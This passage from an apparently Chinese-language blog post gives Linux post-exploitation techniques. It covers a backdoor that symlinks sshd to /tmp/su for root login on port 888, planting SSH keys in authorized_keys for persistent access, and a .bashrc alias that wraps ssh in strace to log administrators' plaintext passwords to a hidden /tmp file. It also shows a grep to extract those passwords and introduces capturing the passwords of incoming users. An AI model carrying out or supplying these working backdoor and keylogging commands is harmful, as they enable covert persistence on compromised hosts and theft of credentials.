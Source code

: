 

```
ln -sf /usr/sbin/sshd /tmp/su
/tmp/su -oPort=888

ssh root@127.0.0.1 -p 888


```

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305205754698-1274201580.png)

优点：能够绕过一些网络设备的安全流量监测，但是本地在查看监听端口时会暴露端口，建议设置成 8081，8080 等端口。

#### 4.3 SSH 公钥免密登陆

```
ssh-keygen -t rsa //生成公钥
echo id\_rsa.pub >> .ssh/authorized\_keys  //将id\_rsa.pub内容放到目标.ssh/authorized\_keys里
<!--ID: 1743494399080-->



```

这个是老生常谈的公钥免登陆，这种用法不只是用在留后门，还可以在一些特殊情况下获取一个交互的 shell，如 struts 写入公钥，oracle 写入公钥连接，Redis 未授权访问等情景。

#### 4.4 SSH Keylogger 记录密码

当前系统如果存在 strace 的话，它可以跟踪任何进程的系统调用和数据，可以利用 strace 系统调试工具获取 ssh 的读写连接的数据，以达到抓取管理员登陆其他机器的明文密码的作用。



在当前用户的 .bashrc 里新建一条 alias ，这样可以抓取他登陆其他机器的 ssh 密码

```
alias ssh='strace -o /tmp/.sshpwd-\`date '+%d%h%m%s'\`.log -e read,write,connect -s2048 ssh'


```

设置完毕后，倘若当前系统不存在 alias，那么就会影响其正常使用：

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305210445202-153632745.png)

```
grep "read(5" /tmp/.sshpwd-09May32324242.log | tail -n 11    //根据不同环境自行调试响应行数


```

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305211117157-1374708307.png)

#### 4.5 strace 监听 ssh 来源流量

不只是可以监听连接他人，还可以用来抓到别人连入的密码。应用场景如：通过漏洞获取 root 权限，但是不知道明文密码在横向扩展中可以使用。

